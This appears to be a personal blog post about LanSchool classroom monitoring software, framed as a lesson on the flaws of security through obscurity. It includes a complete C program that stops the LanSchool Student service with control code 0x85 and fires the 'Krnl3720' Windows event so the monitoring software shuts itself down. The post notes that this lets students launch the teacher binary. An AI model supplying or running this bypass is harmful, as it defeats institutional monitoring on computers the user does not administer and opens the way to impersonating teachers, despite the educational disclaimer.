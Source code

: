 ```yaml
---
layout: post
title: Killing LanSchool Ethically
keywords: lanschool, kill, vulnerability
description: Security through obscurity has its downfalls.
---
```

Disclaimer
---------
The information in this article is to be used and is provided for educational 
purposes only, namely demonstrating the caveats of technological security practices that solely 
rely on security through obscurity to achieve a false sense of security. The author 
is not liable and may not be held responsible in any circumstance for 
any death, injury, security breach, or thermonuclear war caused as a 
direct or indirect effect of providing the information in this article. By continuing to read 
this article, you agree to these terms and conditions. If you do not 
agree to these terms and conditions, do not continue reading.

All information in this article was researched and procured via the 
official LanSchool documentation available on their website. Demo binaries 
were obtained for the disassemblies.

Introduction
---------
LanSchool is a classroom management solution used to monitor student learning 
and improve learning in a digital classroom. It features a screen monitor, 
keystroke monitor, teacher-to-student chat feature, and URL monitor.

Since this allows teachers to monitor student activity and lock down 
computers, it proves unpopular with students under its reign, leading 
many students to find tricks to circumvent the program through its many 
bugs and shortcomings. These get patched eventually though. For a piece 
of software used in institutions where data security is of utmost 
importance, it was not designed with nearly enough security in mind, 
allowing students to impersonate teachers, steal key logs, assume 
authority roles etc. However, this is not the purpose of my article. 
The purpose instead, is to highlight the flaws in the "security through 
obscurity" model with a tangible example. In this case, the effects 
of the vulnerability are not massive, but the same issue in other 
implementations could be deadly.

The Vulnerability
---------
LanSchool is composed of two pieces of software, LanSchool Student and 
LanSchool Teacher, one which runs on student computers, and one which 
runs on teacher computers. While LanSchool Student is running, you cannot 
launch LanSchool Teacher, as LS Teacher checks for the existence of LS Student 
before launching. This prevents students from impersonating teachers by running 
the LS Teacher binary (which is installed along with LS Student in most boards). 
However, LanSchool Student does have a built-in hook that kills itself when called, 
so that teachers can switch from a student terminal to a teacher terminal. After 
LS Student is killed, teachers can launch the LS Teacher binary to govern their class. 

Below is a quick disassembly visualization of a LanSchool binary:

![alt text](https://i.imgur.com/IW5Qbpo.png)

Indicated above are instructions that call the Windows API to trigger 
a Windows Event. In this case, it triggers an event called _Krnl3720_. 
The LS Student binary listens for this event to happen, and when it does, 
it shuts down gracefully.

Below is a C program that simulates the behavior of this LanSchool binary:

``` c++
#include <windows.h>

int main()
{
    // Send the LanSchool Student Service a user code of 0x85
    // When the service receives this code, it ends the service,
    // preventing LS Student from starting itself after it is killed
    
	SC_HANDLE scMgrHndl = OpenSCManagerA(NULL, NULL, 1);
	SC_HANDLE svcHndl = OpenServiceA(scMgrHndl, "LanSchoolStudent", 0x100);
	CloseServiceHandle(scMgrHndl);
	SERVICE_STATUS svcStatus;
	ControlService(svcHndl, 0x85, &svcStatus);
	CloseServiceHandle(svcHndl);

    // Trigger the 'Krnl3720' Windows Event, which the LS Student
    // binary will listen for, and shut itself down when triggered
    
	HANDLE eventHndl = OpenEventA(2, TRUE, "Global\\Krnl3720");
	SetEvent(eventHndl);
	Sleep(0x7D0);
	ResetEvent(eventHndl);
	CloseHandle(eventHndl);
	return 0;
}
```

Conclusion
------------
We have now achieved our goal of killing LS Student gracefully, using the same 
methods as the official binaries. The security of this system relies solely 
on the assumption that attackers will not discover the existence of the 
_Krnl3720_ event hook. You know what, I'm too tired to write the rest of this 
so <del>have fun</del> be responsible with whatever I've written here.




